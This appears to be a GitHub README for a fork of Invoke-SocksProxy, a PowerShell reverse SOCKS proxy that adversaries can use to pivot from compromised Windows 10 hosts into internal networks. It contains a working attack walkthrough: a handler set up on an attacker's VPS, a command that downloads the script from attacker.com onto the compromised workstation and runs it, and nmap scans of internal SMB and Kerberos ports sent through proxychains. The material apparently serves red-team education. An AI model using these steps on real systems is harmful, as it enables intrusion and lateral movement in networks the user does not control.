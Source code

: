 Invoke-SocksProxy is a PowerShell script designed to create reverse proxies. It illustrates one way adversaries use compromised Windows 10 hosts to pivot attacks into local networks.

This repository is a fork of [Invoke-SocksProxy](https://github.com/p3nt4/Invoke-SocksProxy), created for [Varonis](https://www.varonis.com/blog/author/tokyoneon/) by [@tokyoneon_](https://twitter.com/tokyoneon_).

### Usage

For context and examples with crackmapexec, patator, smbclient, and firefox, review [the official publication](https://www.varonis.com/blog/author/tokyoneon/).

Clone the repository on the attacker's VPS.
```
root@vps > cd /opt; git clone https://github.com/tokyoneon/Invoke-SocksProxy
```

Start the reverse proxy handler.
```
root@vps > cd /opt/Invoke-SocksProxy; ./ReverseSocksProxyHandler.py
```

![](images/01.png)

Change the [hardcoded VPS address in the PS1](https://github.com/tokyoneon/Invoke-SocksProxy/blob/master/Invoke-SocksProxy.ps1#L1) and host it on an HTTP server. Download it on the compromised Windows 10 workstation and execute.
```
Ps > cd $env:TEMP
Ps > iwr attacker.com/Invoke-SocksProxy.ps1 -outfile isp.ps1
Ps > .\isp.ps1
```

![](images/02.png)

Configure proxychains to use the VPS address.
```
sudo apt-get install -y proxychains4 && sudo nano /etc/proxychains4.conf
```

![](images/03.png)

Proxy Nmap scans with proxychains.
```
proxychains nmap -sT -Pn -n -p445,139,88,80 172.16.0.4,115
```

![](images/04.png)
